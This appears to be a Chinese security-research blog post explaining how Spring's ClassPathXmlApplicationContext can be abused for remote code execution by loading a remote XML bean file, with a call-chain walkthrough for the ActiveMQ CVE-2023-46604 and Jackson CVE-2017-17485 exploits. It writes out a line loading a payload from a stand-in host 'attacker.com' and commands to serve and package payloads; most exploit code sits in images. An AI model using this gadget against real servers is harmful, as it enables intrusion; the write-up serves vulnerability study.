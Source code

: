 #  【JAVA安全笔记】ClassPathXmlApplicationContext利用链 有参构造对象RCE打法  
原创 Shelter1234  安全研究员   2025-07-21 14:00  
  
  ClassPathXmlApplicationContext 是 Spring 框架中的一个重要类，用于加载应用程序的上下文配置。它从类路径中读取 XML 配置文件，并根据该配置文件创建和管理 Spring 的 bean。它的构造函数接收一个 String 类型的路径参数，支持持 http://、file://、ftp://、classpath: 等多种协议。  
  
new ClassPathXmlApplicationContext("http://attacker.com/poc.xml");  
  
该类在初始化过程中会加载传入的 XML 文件，并解析其中的 <bean> 定义，进而触发类加载、静态代码块执行等行为，常用于构造远程代码执行（RCE）利用链。  
  
  
简单示例  
  
假设我们有如下类  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTIy10v0xibztxHnWGiby3MC4NhB1Gf6nhKbV7d5JFPZRjW4xPibib6p7fzQ/640?wx_fmt=png&from=appmsg "")  
  
编写applicationContext.xml xml文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTQVnYospjHnqm77uib2QXmOdbkydAoUF7fyoRzolXFGYao7n98sZMMmw/640?wx_fmt=png&from=appmsg "")  
  
使用ClassPathXmlApplicationContext进行加载  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTcADsmEfp5wT7E0eakWCpribcBIiaFlPHicNs0EkicjEl9S4kC5z8Cm2NvQ/640?wx_fmt=png&from=appmsg "")  
  
输出：得到这个bean对象 调用doSomething  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTibnV34b8iaV6j5r6c8PTGo8aj4syJsKZibMGzNMPaUu0BGbKyc5YFLDyA/640?wx_fmt=png&from=appmsg "")  
  
假设applicationContext.xml 有如下的bean 我们则可以执行系统命令  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTibVhdUQnYicZhsWmu8Ijoib7kWk1TICoUOXqXwzpNQFZicHAtQl544uh8g/640?wx_fmt=png&from=appmsg "")  
  
只需创建context对象便可触发  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUT7YDicZ4tS5ugyeHkhib3phqRFSKfrZI7GkXAYghHnMUiadVict0aHb2Cyw/640?wx_fmt=png&from=appmsg "")  
  
ClassPathXmlApplicationContext 可支持的协议测试  
  
1.http协议  
  
使用python -m http.server -b 0.0.0.0 创建一个http服务，提供以下文件  
  
（注意：加载的xml格式的文件与文件后缀无关）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTFajic4hYvIksSz4WQrFmSQic3HuozY02GglqRMerrrFbxvBtzYFQpDXg/640?wx_fmt=png&from=appmsg "")  
  
ClassPathXmlApplicationContext加载，改xml格式的txt文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTRLfDTEXypfeGFUHicO8eozBUMCpPEp62wJ6udEnf1raxAibyu0cVovuw/640?wx_fmt=png&from=appmsg "")  
  
执行结果  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTaSedpTs19gO2FBqhiakP0KxARl28nzLXORzEmP9icIuYwoSPFiaXv8ibwg/640?wx_fmt=png&from=appmsg "")  
  
2.file协议  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTETmHY804oZ8SJsm4Zwf8ZgP0ddtq9q6KzPMfx50iaicQxUmlAicFr7wOQ/640?wx_fmt=png&from=appmsg "")  
  
执行结果  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTfwP0j9VUeT0ibuEgyyxsfIxErZT81HYUdTciaowWS9iagn4bJNHSwaGPw/640?wx_fmt=png&from=appmsg "")  
  
3.ftp协议  
  
本地起一个匿名服务器  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUT2tUoxD1lHHPW1eEVB1EiboQ3ufEP9MoNqo4aMsukiaqoaO47lPicCDAxA/640?wx_fmt=png&from=appmsg "")  
  
运行结果  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTZfCNLoys7ZWCm9u5HTvgLCXianDbOG4LpBWznz7avxIlgIXEicpbAXNA/640?wx_fmt=png&from=appmsg "")  
  
4.jar协议  
  
jar cvf payload.jar poc.txt 生成jar包  
  
测试结果  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTr3rvOIibpNwuibOtuPpUcbEzhdXAianbe6x0YpmjajW1AyLK4Ldia7ptrg/640?wx_fmt=png&from=appmsg "")  
  
  
实战中的应用  
  
1. CVE-2017-17485  
  
Jackson反序列化漏洞利用链  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTSBV5UzIvicIXYw1yfjXFvT0e9xygVTehxYQ78SwIrLNLpddhSPpVukA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTQYcMd7mCh4rg8oxVXk6RQm0yqa9waZoNiboUiaqhrZtPqewYIO0W5lZg/640?wx_fmt=png&from=appmsg "")  
  
（关于jsckson的序列化利用姿势后面再讲解）  
  
2. Apache ActiveMQ OpenWire 协议反序列化命令执行漏洞 CVE-2023-46604  
  
BaseDataStreamMarshaller 中的createThrowable方法，将会对参数进行构造方法调用，实例化一个都对象。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTQG73ic78YeiaIX07BZWfdn0qThcoHp26raloLRKQvK8qsASCG4q8icAyw/640?wx_fmt=png&from=appmsg "")  
  
若参数可控，可以考虑ClassPathXmlApplicationContext的打法利用链  
  
右键find useages - createThrowable  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTxx7Nvibjuv7V0Le3M4icDOF2h9EzQYmdZKsgBkZeUf5ENkQvuM3WnOSQ/640?wx_fmt=png&from=appmsg "")  
  
跟进其中一个looseUnmarsalThrowable进行分析  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTRCG1MVjMejOKChQZyzmicdhcdWTbTR72NFKA1Bumj94jEGSOIQDuJxQ/640?wx_fmt=png&from=appmsg "")  
  
clazz 与 message 均来自dataIn，貌似是一个输入流  
  
继续分析looseUnmarsalThrowable的调用  
  
右键find useages - looseUnmarsalThrowable  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTxF9J9gwicEic1wIj29RQxvFAjoPhicOzRF3IOnPF0aw0dhRoFxgjGVvZw/640?wx_fmt=png&from=appmsg "")  
  
跟进其中一个ExceptionResponseMarshaller进行分析  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTPpSmJuqVHdywG8k3FYHX7MbQia2lv7yibAibsX2yx12elJnm4463mpIHQ/640?wx_fmt=png&from=appmsg "")  
  
继续向上分析looseUnmarshal 的调用  
  
最终找到一个doUnmarshal的方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTzYyiaZTYB36N1BSfIhQaPoVoDOaqzib5SPnibQmibPT9WohFicFwiby5iaj6Q/640?wx_fmt=png&from=appmsg "")  
  
这里我们需要做如下考虑  
  
1，我们需要dsm等于ExceptionResponseMarshaller ，这样就会调用ExceptionResponseMarshaller 的looseUnmarshal 方法。如此要dataType为31  
  
2，this.tightEncodingEnabled 成立  
  
继续分析doUnmarshal的调用  
  
右键find useages - doUnmarshal  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTFOZ8ONhShyGhgZEoMRtYwgykV7qn9hzpPNHEKbbxQ8X1X2200ZrONw/640?wx_fmt=png&from=appmsg "")  
  
来到unmarshal 方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTibwCFibf7PPvVDj8EoAbElhYdQwbsUqM6OeOuH6icRunhDwq7tv8n49Fw/640?wx_fmt=png&from=appmsg "")  
  
继续向上  
  
右键find useages - unmarshal  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTibPomFjdtq8pZxicicHJ7IlXe2GOUsoBYZjfqJRSm418H0kEmWMibD2TXQ/640?wx_fmt=png&from=appmsg "")  
  
来到readCommand()  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTxic4ibicsshibz8a3sozb5LlGpBMUzhibvvD6KmVngwgxSylZXOkRe0WtFw/640?wx_fmt=png&from=appmsg "")  
  
readCommand()<—doRun()<—run()  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTEiaib7OX228spUnb3EnL4h7ZZBeeY0xF62ia05JibRwp1HhC7a5ZlbGctA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTqcpRdApNjmS1HVdWBTLDyJJsMykTIyWp1kYtsvOJbRhItTeSZorKAw/640?wx_fmt=png&from=appmsg "")  
  
至此调用链分析就结束了  
  
要想成功加载恶意类，控制dataIn中的数据即可，  
  
如何制造我们想要的序列化数据呢？  
  
既然有readCommand，那么就会有writeCommand  
  
参考下同类下的oneway方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTB3S1KunOiaBf4TDJY7tOqpJ0131Ax7fh9YZyKMTgIEiaMDLmWiakEH8Bw/640?wx_fmt=png&from=appmsg "")  
  
有兴趣的话可以分析producer.send(message);是如何到达oneway方法的  
  
（在 Apache ActiveMQ 中，当调用 producer.send(message) 发送消息时，消息的发送过程经过了几个步骤，最终会触发 oneway 方法。）  
  
我们可以直接获取oneway方法，并且传入exceptionResponse  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTGS2xibL459yhtymfZrnS4HSW8CA66F0zB8BQDEXZqiaicuOeTh0PGoBAw/640?wx_fmt=png&from=appmsg "")  
  
构造一个ClassPathXmlApplicationContext 它需要与ExceptionResponse 产生关联，于是便可以这样写  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTlLnJ6yC23nakUtPciarFbWYSJOT1fsrNUpnQPQJpO7rVcViaGIO74RUg/640?wx_fmt=png&from=appmsg "")  
  
之后用ExceptionResponse封装这个类  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTrOwyDGRFQn0jE6667icu0lN4ib3fqD6v3b0nNd6KBnLoHsric9eEL2ssg/640?wx_fmt=png&from=appmsg "")  
  
有如下生成恶意的流数据，让服务端读取数据时触发异常，创建ClassPathXmlApplicationContext 对象执行代码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTq7icdWdY20FXV6PCQlMRD0AOECtPYGibHXN0pdAWLxyyLuE467adEicIw/640?wx_fmt=png&from=appmsg "")  
  
或者使用其他形式生成流数据  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTMZ4iaGbAY94eiczKgRFdISD2ADfnJ88LhZlQfd9LSwYD7jvVxPia83wfA/640?wx_fmt=png&from=appmsg "")  
  
参考  
  
https://blog.csdn.net/shelter1234567/article/details/137041683?spm=1011.2415.3001.5331 (自家博客)  
  
https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2023-46604/README.zh-cn.md  
  
  
  
